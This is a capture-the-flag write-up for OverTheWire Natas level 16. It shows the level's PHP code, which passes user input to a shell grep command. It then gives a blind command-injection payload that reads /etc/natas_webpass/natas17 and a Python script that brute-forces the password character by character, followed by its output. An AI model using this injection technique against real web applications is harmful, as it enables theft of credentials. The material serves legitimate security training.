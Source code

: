 # Natas Level 16
```bash
Username: natas16
Password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
URL:      http://natas16.natas.labs.overthewire.org
```
We enter the site, and see the following page:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas16.png" />
    <div align="center">Natas 16</div>
</figure>

Clicking on the "View sourcecode" link:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas16-view-sourcecode.png" />
    <div align="center">Natas 16 - View sourcecode</div>
</figure>

And the script is (in first look it is similar to level 10):
```php
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/<strong>[;|&`\'"</strong>]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
```

One difference from level 10 is few new illegal characters:
* ;
* |
* &amp;
* \`
* '
* "

The more important difference is that the $key is being qouted, so we can't send a filename to search in.

We know that the word "university" can be found in the dictionary, but no another word with the postfix "university".

We can again use the same technique ( blind code injection).

We brute force the password and prepend the search result to the word university, if the result word cant be found, we know that we are in the right way.

Using this python code:
```python
import requests
import string

URL = "http://natas16.natas.labs.overthewire.org/?needle=$(grep ^%s /etc/natas_webpass/natas17)university"
auth = ('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')

password = ''
c = string.digits + string.ascii_uppercase + string.ascii_lowercase

while len(password) < 32:
    for d in c:
        r = requests.get(URL % (password + d), auth=auth)

        if not "university" in r.content:
            password += d
            print password + "*" * (32 - len(password))
            break

print "Password for natas17 is:", password
```

We get the result:
```bash
8Ps*****************************
8Ps3****************************
8Ps3H***************************
8Ps3H0**************************
8Ps3H0G*************************
8Ps3H0GW************************
8Ps3H0GWb***********************
8Ps3H0GWbn**********************
8Ps3H0GWbn5*********************
8Ps3H0GWbn5r********************
8Ps3H0GWbn5rd*******************
8Ps3H0GWbn5rd9******************
8Ps3H0GWbn5rd9S*****************
8Ps3H0GWbn5rd9S7****************
8Ps3H0GWbn5rd9S7G***************
8Ps3H0GWbn5rd9S7Gm**************
8Ps3H0GWbn5rd9S7GmA*************
8Ps3H0GWbn5rd9S7GmAd************
8Ps3H0GWbn5rd9S7GmAdg***********
8Ps3H0GWbn5rd9S7GmAdgQ**********
8Ps3H0GWbn5rd9S7GmAdgQN*********
8Ps3H0GWbn5rd9S7GmAdgQNd********
8Ps3H0GWbn5rd9S7GmAdgQNdk*******
8Ps3H0GWbn5rd9S7GmAdgQNdkh******
8Ps3H0GWbn5rd9S7GmAdgQNdkhP*****
8Ps3H0GWbn5rd9S7GmAdgQNdkhPk****
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq***
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9**
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c*
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
Password for natas17 is: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
```

We got the password for the next level: **8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw**